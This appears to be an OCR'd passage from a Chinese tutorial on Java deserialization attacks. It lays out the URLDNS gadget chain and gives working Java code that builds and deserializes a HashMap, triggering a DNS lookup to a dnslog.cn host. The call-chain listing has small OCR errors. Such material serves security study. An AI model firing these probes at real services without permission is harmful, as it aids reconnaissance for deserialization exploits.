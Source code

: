 整个调用链

```bash
HashMap->readObject()
HashMap->hash()
URL->hachCode()
URLStreamHandler->hachCode()
URLStreamHandler->getHostAddress()
InetAddress.getByName()
```

## 7.4 反序列化利用

```bash
import java.io.*;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;
public class DnsTest {
 public static void main(String[] args) throws Exception {
   HashMap<URL,Integer> hashmap =new HashMap<URL,Integer>();
   URL url = new URL("http://nxfsji.dnslog.cn");
   Class c = url.getClass();
   Field fieldhashcode=c.getDeclaredField("hashCode");
   fieldhashcode.setAccessible(true);
   fieldhashcode.set(url,222); //第一次查询的时候会进行缓存，所以让它不等于 -1
   hashmap.put(url,2);
   fieldhashcode.set(url,-1); //让它等于 -1 就是在反序列化的时候等于 -1 执行 dns 查询
   serialize(hashmap);
 }
 public static void serialize(Object obj) throws IOException {
   ObjectOutputStream oos = new ObjectOutputStream(new
FileOutputStream("ser.bin"));
   oos.writeObject(obj);
   oos.close();
 }
}
```

进行反序列化

```bash
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
public class RrefilectDns{
 public static void main(String[] args) throws Exception{
   unserialize();
 }
 public static void unserialize() throws IOException, ClassNotFoundException
{
   ObjectInputStream ois = new ObjectInputStream(new
FileInputStream("ser.bin"));
   ois.readObject();
   ois.close();
 }
}
```
